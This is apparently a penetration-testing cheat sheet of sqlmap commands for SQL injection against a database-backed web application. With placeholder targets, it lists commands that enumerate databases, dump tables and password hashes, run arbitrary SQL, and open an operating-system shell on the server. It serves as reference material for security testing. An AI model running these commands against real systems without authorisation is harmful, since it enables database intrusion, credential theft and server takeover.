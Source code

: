 ```yaml
---
tags: [database]
---
```


# Test URL and POST data and return database banner (if possible)

./sqlmap.py --url="<url>" --data="<post-data>" --banner

# Parse request data and test | request data can be obtained with burp

./sqlmap.py -r <request-file> <options>

# Fingerprint | much more information than banner

./sqlmap.py -r <request-file> --fingerprint

# Get database username, name, and hostname

./sqlmap.py -r <request-file> --current-user --current-db --hostname

# Check if user is a database admin

./sqlmap.py -r <request-file> --is-dba

# Get database users and password hashes

./sqlmap.py -r <request-file> --users --passwords

# Enumerate databases

./sqlmap.py -r <request-file> --dbs

# List tables for one database

./sqlmap.py -r <request-file> -D <db-name> --tables

# Other database commands

./sqlmap.py -r <request-file> -D <db-name> --columns
--schema
--count

# Enumeration flags

./sqlmap.py -r <request-file> -D <db-name>
-T <tbl-name>
-C <col-name>
-U <user-name>

# Extract data

./sqlmap.py -r <request-file> -D <db-name> -T <tbl-name> -C <col-name> --dump

# Execute SQL Query

./sqlmap.py -r <request-file> --sql-query="<sql-query>"

# Append/Prepend SQL Queries

./sqlmap.py -r <request-file> --prefix="<sql-query>" --suffix="<sql-query>"

# Get backdoor access to sql server | can give shell access

./sqlmap.py -r <request-file> --os-shell
